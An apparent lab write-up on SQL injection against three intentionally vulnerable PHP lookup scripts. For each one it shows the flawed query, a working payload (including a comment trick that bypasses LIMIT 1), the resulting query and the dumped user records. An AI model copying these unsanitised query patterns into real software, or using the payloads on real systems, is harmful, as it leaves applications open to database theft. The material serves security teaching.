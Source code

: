 # Vulnerable Code 1

This code fetches "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

# Abuse

Since there is no input sanitation for user input, we can sent a payload that didnt expected and get all data from database.

# Payload

```php
' or '1'='1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';
```

# Result

```php
ID: ' or '1'='1
First name: admin
Surname: admin

ID: ' or '1'='1
First name: Gordon
Surname: Brown

ID: ' or '1'='1
First name: Hack
Surname: Me

ID: ' or '1'='1
First name: Pablo
Surname: Picasso

ID: ' or '1'='1
First name: Bob
Surname: Smith
```

# Vulnerable Code 2
This code fetches "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```


# Abuse

In this code, the id parameter is not inside of apostrophe character so payload will be without it

# Payload

```php
1 or 1=1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id=1 or 1=1;
```


# Result

```php
ID: 1 or 1=1
First name: admin
Surname: admin

ID: 1 or 1=1
First name: Gordon
Surname: Brown

ID: 1 or 1=1
First name: Hack
Surname: Me

ID: 1 or 1=1
First name: Pablo
Surname: Picasso

ID: 1 or 1=1
First name: Bob
Surname: Smith
```


# Vulnerable Code 3

This code fetches "first_name" and "last_name" of a user with given "user_id" and limit result to 1 dataset only.


```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

# Abuse

In this code there is "Limit 1" at the end of sql query which means we cant get all database like code-1 and code-2. To abuse this code, we will use the same logic in code-1 but also will add "-- -" to make comment rest of the query. 

# Payload

```sql
1' or '1'='1'; -- -
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1'; -- -' LIMIT 1;
```

# Result

```php
ID: 1' or '1'='1'; -- -
First name: admin
Surname: admin

ID: 1' or '1'='1'; -- -
First name: Gordon
Surname: Brown

ID: 1' or '1'='1'; -- -
First name: Hack
Surname: Me

ID: 1' or '1'='1'; -- -
First name: Pablo
Surname: Picasso

ID: 1' or '1'='1'; -- -
First name: Bob
Surname: Smith
```